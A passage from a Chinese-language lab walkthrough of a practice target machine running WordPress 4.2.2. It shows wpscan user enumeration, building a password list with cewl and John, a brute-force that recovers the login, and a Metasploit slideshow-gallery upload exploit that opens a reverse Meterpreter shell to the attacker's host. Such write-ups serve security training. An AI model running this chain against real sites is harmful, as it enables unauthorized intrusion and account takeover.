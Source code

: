     发现是`WordPress 4.2.2`
    
5. 直接使用`wpscan`
    
    ```python
    wpscan --url 192.168.75.172/bull/ -e u
    ```
    
    枚举出用户`bully` ，尝试爆破，尝试了常规字典爆破无法枚举出来，看靶机官网底下写着需要额外的字典，所以可能是让我们生成字典
    

## 生成字典

1. 使用`cewl`生成`cms`关键字字典，生成最短密码长度为`6`的密码字典
    
    ```python
    cewl http://192.168.75.172/bull -m 6 > wordlist.txt
    ```
    
2. 然后再使用`John`来生成更多密码组合
    
    ```python
    john --wordlist=wordlist.txt --rules --stdout > words-john.txt
    ```
    
3. 再尝试使用新生成的字典去爆破
    
    ```python
    wpscan --url 192.168.75.172/bull/ -U bully -P words-john.txt
    //
    [SUCCESS] - bully / Bighornedbulls
    ```
    
    枚举出密码`Bighornedbulls`
    

## 拿到shell

1. 我这里的`wpscan`扫不出任何漏洞（可能是我IP配置不正确的问题），查看了`WP`发现有个幻灯片插件存在漏洞，并且在`MSF`下有利用脚本
    
    ```python
    msf6 > use exploit/unix/webapp/wp_slideshowgallery_upload
    msf6 exploit(unix/webapp/wp_slideshowgallery_upload) > set rhosts 192.168.75.172
    rhosts => 192.168.75.172
    msf6 exploit(unix/webapp/wp_slideshowgallery_upload) > set targeturi /bull/
    targeturi => /bull/
    msf6 exploit(unix/webapp/wp_slideshowgallery_upload) > set WP_PASSWORD Bighornedbulls
    WP_PASSWORD => Bighornedbulls
    msf6 exploit(unix/webapp/wp_slideshowgallery_upload) > set WP_USER bully
    WP_USER => bully
    msf6 exploit(unix/webapp/wp_slideshowgallery_upload) > run
    
    [*] Started reverse TCP handler on 192.168.75.151:4444
    [*] Trying to login as bully
    [*] Trying to upload payload
    [*] Uploading payload
    [*] Calling uploaded file klccanyg.php
    [*] Sending stage (39927 bytes) to 192.168.75.172
    [+] Deleted klccanyg.php
    [*] Meterpreter session 1 opened (192.168.75.151:4444 -> 192.168.75.172:36399) at 2024-10-30 18:07:17 +0800
    